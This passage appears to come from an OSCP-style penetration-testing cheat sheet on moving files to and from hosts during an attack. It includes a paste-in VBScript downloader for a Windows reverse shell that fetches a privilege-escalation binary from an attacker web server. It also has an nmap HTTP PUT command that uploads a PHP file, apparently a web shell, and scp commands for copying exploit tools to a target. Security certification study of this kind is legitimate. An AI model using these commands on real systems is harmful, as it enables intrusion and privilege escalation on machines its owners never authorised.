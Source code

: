 *   Creating a wget VB Script on Windows:  
    [_https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt_](http://web.archive.org/web/20171113221652/https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

*   Windows file transfer script that can be pasted to the command line. File transfers to a Windows machine can be tricky without a Meterpreter shell. The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

    The file can be run using the following syntax:

    `C:\temp\cscript.exe webdl.vbs`

*   Mounting File Shares

    *   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs
*   HTTP Put  
    nmap -p80 $ip --script http-put --script-args http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

*   ## [](#uploading-files)Uploading Files

    *   SCP

        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

        scp localfile username@$ip:~/Folder/

        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
